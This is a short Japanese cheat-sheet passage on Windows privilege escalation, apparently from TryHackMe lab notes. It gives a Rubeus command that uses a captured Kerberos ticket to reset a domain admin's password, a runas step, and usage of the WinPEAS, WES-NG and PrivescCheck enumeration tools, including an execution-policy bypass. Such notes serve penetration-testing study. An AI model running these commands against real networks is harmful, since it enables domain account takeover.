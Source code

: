 ```ps
# TGTを使ってパスワード変更
.\Rubeus.exe changepw /ticket:svc.gitlab.kirbi /new:Tryhackme! /dc:LUNDC.lunar.eruca.com /targetuser:lunar.eruca.com\da-nread

# runas
runas /user:lunar.eruca.com\<username of DA> cmd.exe
```

## 自動収集ツール

### WES-NG

https://github.com/bitsadmin/wesng

ペイロードをターゲット上に保存せず、kali 上で実行できるため、ステルス性が高い

```shell
# データベース最新化
wes.py --update
```

```shell
# ターゲットで systeminfo を実行し、systeminfo.txt に保存後
$ wes.py systeminfo.txt
```

### WinPEAS

https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS

```shell
winpeas.exe > outputfile.txt
```

### PrivescCheck

https://github.com/itm4n/PrivescCheck

```powershell
PS C:\> Set-ExecutionPolicy Bypass -Scope process -Force
PS C:\> . .\PrivescCheck.ps1
PS C:\> Invoke-PrivescCheck
```

### meterpreter がある場合

multi/recon/local_exploit_suggester モジュールを利用
